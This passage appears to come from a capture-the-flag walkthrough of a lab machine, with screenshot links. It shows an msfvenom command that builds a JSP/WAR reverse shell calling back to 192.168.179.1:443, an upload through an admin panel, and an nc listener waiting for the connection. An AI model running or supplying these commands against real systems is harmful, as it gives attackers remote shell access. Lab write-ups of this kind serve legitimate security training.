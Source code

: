 ![](/assets/images/mercy/screenshot-9.png)

Logged into the administration panel we need to upload a reverse shell, on the attacking machine we create a war reverse shell as shown below:

```console
root@kali:~$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.179.1 LPORT=443 -f war -o reverse.war
```

Created our reverse shell we have to upload it, as shown in the following pictures:

![](/assets/images/mercy/screenshot-10.png)

![](/assets/images/mercy/screenshot-11.png)

**Getting a reverse shell**

Ones our war reverse shell is uploaded, we need set up an nc listener on port 443 waiting for incoming connections.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
```
